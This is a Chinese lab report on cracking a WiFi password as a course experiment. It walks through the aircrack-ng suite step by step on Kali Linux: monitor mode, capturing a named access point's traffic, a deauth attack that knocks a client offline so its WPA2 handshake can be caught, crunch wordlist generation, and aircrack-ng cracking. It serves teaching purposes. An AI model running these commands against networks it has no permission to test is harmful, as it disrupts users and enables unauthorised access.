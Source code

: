 # WIFI渗透实验

[toc]

## 题目一(无网卡)

### 实验要求

利用有监听功能的wifi网卡和aircraft-ng完整完成一次对wifi AP的密码破解，详细记录过程，完成实验报告。

### 实验环境

- kali-linux 2022.1
- 16g usb 2.0
- 宿主机
- 网卡：Intel wireless-ac 1650（支持混杂模式）

### 准备工作

- 网卡由于疫情原因到不了，不得已在usb内安装kali系统；
- 具体操作步骤详见：https://www.kali.org/docs/usb/live-usb-install-with-windows/
- 失败几次我的教训是不要使用etcher这个工具；
- 使用Rufus将U盘改造成启动盘；
- 在宿主机bios的boot界面将USB的优先级提升到第一，保存并推出；
- 即可在U盘中启动，在主机上运行kali。

### 实验流程

#### 设置无线网卡监听模式

- 首先列出所有可能干扰无线网卡的程序，并终止这些程序：```sudo airmon-ng check```

- 打开监听（混杂模式），并查看此时无线网卡状态：

  ```
  sudo airmon-ng start wlan0
  
  iwconfig
  ```

  ![](./img/monitor.png)

  发现此时无线网卡变为“wlan0mon”，且mode一栏变为“monitor”。

- 接着重启网卡：

  ```
  sudo ifconfig wlan0mon down
  sudo iwconfig wlan0mon mode monitor
  sudo ifconfig wlan0mon up 
  ```

  ![](./img/reboot.png)

#### 开启探测并抓包 

- 开启探测：```sudo airodump-ng wlan0mon```

  得到周围wifi信息：![](./img/wifidetect.png)

- 选取我们要攻击的wifi，例如PHICOMM_63C23A，记下它的MAC地址F0:EB:D0:63:C2:3A，CHANNEL 11。

- 开始抓包：```sudo airodump-ng --ivs --bssid F0:EB:D0:63:C2:3A –w longas.txt -c 11 wlan0mon```

  --bssid 是路由器的mac地址
  -w 是写入到文件longas.txt中
  -c 11 是频道11
  --ivs 是只抓取可用于破解的IVS数据报文

#### 攻击获得WPA2握手验证数据包

- 这里为了获得破解所需的WPA2握手验证的整个完整数据包，我们将会发送一种称之为“Deauth”的数据包来将已经连接至无线路由器的合法无线客户端强制断开，此时，客户端就会自动重新连接无线路由器，我们也就有机会捕获到包含WPA2握手验证的完整数据包了。

- 接下来就需要进行攻击了：新开一个shell

  ```sudo aireplay-ng -0 1 –a F0:EB:D0:63:C2:3A -c 60:07:C4:8A:1E:2B wlan0mon```

  -0 采用deauth攻击模式，后面跟上攻击次数，这里我设置为1，大家可以根据实际情况设置为10不等
  -a 后跟路由器的mac地址
  -c 后跟客户端（即连接在此wifi上的某一台设备）的mac地址

  ![](./img/attack.png)

- 此时抓包界面出现“handshake”，即得到了包含WPA2握手验证的完整数据包[longas.txt-01.ivs](./longas.txt-01.ivs)，结束抓包。

#### 使用crunch得到密码字典

- crunch在kali2022.1中是自带的一个程序；

- 在shell中输入命令：

  ```
  crunch 8 8 -t YYS^%%%%  -d 4% -b 20mb -o START
  # min 设定最小字符串长度（必选）
  # max 设定最大字符串长度（必选）
  # 这里这两个值都取8，即规定密码为8位
  
  # -t 指定密码输出的格式
  
  # Crunch特殊字符
  # 1、% 代表数子
  # 2、^ 代表特殊符号
  # 3、@ 代表小写字母
  # 4、, 代表大写字符
  # 这里为了待会遍历破译更快且生成字典不要过大，给出了密码的前3位字母且给出了密码格式
  # -d 4% 表示至少出现四种不同数字
  # -b 指定文件输出的大小为20mb
  # -o 将密码保存到指定文件 后面必须为START
  ```

- 经过重命名得到密码字典：

  [passwd.txt](./passwd.txt)

#### 遍历字典破译wifi密码

- ```sudo aircrack-ng -w passwd.txt longas.txt-01.ivs```

- 耐心等候以后得到：

  ![](./img/found.png)

### 参考资料

- [在 Windows 上制作 Kali 可启动 USB 驱动器](https://www.kali.org/docs/usb/live-usb-install-with-windows/)

- https://www.jianshu.com/p/fd16236057df

  

